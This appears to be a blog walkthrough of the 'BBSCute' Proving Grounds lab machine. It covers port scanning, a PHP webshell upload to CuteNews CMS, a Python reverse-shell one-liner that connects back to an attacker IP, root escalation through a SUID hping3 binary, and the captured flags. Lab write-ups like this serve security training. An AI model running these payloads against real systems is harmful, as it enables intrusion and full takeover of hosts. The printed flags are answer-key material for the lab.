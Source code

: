 ```yaml
---
title: BBSCute
categories: [Proving Grounds, Play]
tags: [CMS, CuteNews_CMS, RFI, hping3, PrivEsc, Public Exploit, File Upload, SUIDs]
image:
  path: https://miro.medium.com/v2/resize:fit:1200/1*fiNtXsFnX5MR7BPQV_wBvg.png
  alt:  BBSCute Machine 🖥️
---
```



### Lets check the IP address of victim machine first ➡️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled.png)

```bash
IP : 10.0.2.48
```
{: .nolineno}

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/BBSCute]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.48
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 19:53 IST
Nmap scan report for 10.0.2.48
Host is up (0.00056s latency).
Not shown: 65530 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04d06ec4ba4a315a6fb3eeb81bed5ab7 (RSA)
|   256 24b3df010bcac2ab2ee949b058086afa (ECDSA)
|_  256 6ac4356a7a1e7e51855b815c7c744984 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
88/tcp  open  http     nginx 1.14.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.14.2
110/tcp open  pop3     Courier pop3d
|_pop3-capabilities: IMPLEMENTATION(Courier Mail Server) UTF8(USER) LOGIN-DELAY(10) STLS TOP UIDL PIPELINING USER
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
|_ssl-date: TLS randomness does not represent time
995/tcp open  ssl/pop3 Courier pop3d
|_pop3-capabilities: UTF8(USER) LOGIN-DELAY(10) IMPLEMENTATION(Courier Mail Server) TOP UIDL PIPELINING USER
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
MAC Address: 08:00:27:BF:70:A5 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%201.png)

### Directory / Files Bruteforcing ➡️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%202.png)

Now lets dig into the index.php file →

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%203.png)

Lets Register first →

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%204.png)

Now I can’t find captcha this was because of my IP address configuration so manually I need to call `captcha.php` file for captcha ⬇️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%205.png)

with that lets login Now with my credentials ⤵️

```bash
Username : shiva 
Password : password
```
{: .nolineno}

After login I got this interface ➡️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%206.png)

After looking for an exploit I got this [exploit](https://www.exploit-db.com/exploits/48800) and I followed the path →

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%207.png)

Here in this exploit I have to create a payload file like this ⤵️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%208.png)

Now with gif magic byte the file is now image file →

Now lets upload it through our dashboard ⬇️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%209.png)

Now when I saved it , It got successfully uploaded so now I have to load the file for that lets follow through the exploit again —>

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%2010.png)

Through this my URL was → [http://10.0.2.48/uploads/avatar_shiva_payload.php?cmd=whoami](http://10.0.2.48/uploads/avatar_shiva_payload.php?cmd=whoami)

In response I got ⬇️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%2011.png)

Now its time for reverse shell python payload input →

```bash
Python Payload >
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%2012.png)

Now when I got the shell lets check for SUIDs and GUIDs →

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%2013.png)

Also I found `user.txt` file —>

```bash
www-data@cute:/home/fox$ cat user.txt
cat user.txt
dcb8189a0eaf7a690a67785a7299be60
www-data@cute:/home/fox$
```
{: .nolineno}

Now lets exploit our hping3 ⤵️

```bash
www-data@cute:/$ /usr/sbin/hping3    
/usr/sbin/hping3
hping3> /bin/sh -p
/bin/sh -p
# whoami
whoami
root
#
# ls -al
ls -al
total 32
drwx------  3 root root 4096 Sep 23  2020 .
drwxr-xr-x 18 root root 4096 Sep 17  2020 ..
-rw-------  1 root root   70 Sep 23  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-------  1 root root   36 Sep 17  2020 .lesshst
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  2 root root 4096 Sep 17  2020 localweb
-rw-------  1 root root   33 Sep 18  2020 root.txt
# cat root.txt
cat root.txt
0b18032c2d06d9e738ede9bc24795ff2
#
```
{: .nolineno}

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }